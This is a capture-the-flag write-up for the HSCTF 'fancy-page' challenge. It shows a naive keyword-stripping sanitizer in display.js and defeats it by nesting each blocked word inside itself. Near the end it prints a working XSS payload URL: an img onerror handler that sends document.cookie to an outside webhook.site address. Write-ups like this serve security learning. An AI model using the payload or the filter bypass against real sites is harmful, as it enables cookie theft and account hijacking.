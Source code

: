 # fancy-page
> http://fancy-page.hsctf.com

## About the Challenge
We have been given a source code (You can download the source code [here](fancy-page.zip)). Inside the source code there is a JavaScript file called `display.js`. Here is the content of the file

```js
import { default as Arg } from "https://cdn.jsdelivr.net/npm/@vunamhung/arg.js@1.4.0/+esm";

function sanitize(content) {
	return content.replace(/script|on|iframe|object|embed|cookie/gi, "");
}

let title = document.getElementById("title");
let content = document.getElementById("content");

function display() {
	title.textContent = Arg("title");
	document.title = Arg("title");

	let sanitized = sanitize(Arg("content"));
	content.innerHTML = sanitized;

	document.body.style.backgroundColor = Arg("background_color");
	document.body.style.color = Arg("color");
	document.body.style.fontFamily = Arg("font");
	content.style.fontSize = Arg("font_size") + "px";
}

display();
```

As you can see, this is a XSS challenge, but there is some sanitization applied to certain strings, such as `script`, `on`, `iframe`, `object`, `embed`, and `cookie`

## How to Solve?
To bypass the sanitization im using `string within a string`. For example

```
cookie => ""
coocookiekie => "cookie"
```

And here is the payload that I used to solve this chall

```
http://fancy-page.hsctf.com/display.html?title=test&content=test%3Cimg/src/oonnerror%3Dlocatioonn.replace(%27https://webhook.site/bbd37165-3069-4602-8ffe-56a1c7e6a8a1%2F%3F%27%2Bdocument.coocookiekie)%3E&background_color=%23ffffff&color=%23000000&font=Helvetica&font_size=16
```

And then check webhook to obtain the flag

![flag](images/flag.png)

```
flag{filter_fail}
```